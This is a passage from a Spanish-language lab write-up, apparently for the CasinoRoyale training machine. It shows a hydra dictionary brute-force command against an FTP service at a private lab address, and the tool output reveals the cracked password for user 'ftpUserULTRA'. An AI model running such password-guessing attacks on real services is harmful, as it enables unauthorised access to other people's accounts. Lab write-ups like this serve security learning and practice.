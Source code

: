 <img src="/assets/VH/CasinoRoyale/directory.png">

Sabiendo el usuario procedemos a realizar un ataque por fierza bruta con hydra sobre el servicio FTP con el usuario `ftpUserULTRA` y el diccionario `rockyou.txt`

```bash
❯ hydra -l ftpUserULTRA -P rockyou.txt ftp://192.168.1.147 -t 15
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-12 13:04:31
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ftp://192.168.1.147:21/
[21][ftp] host: 192.168.1.147   login: ftpUserULTRA   password: bankbank
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-12 13:04:42
```
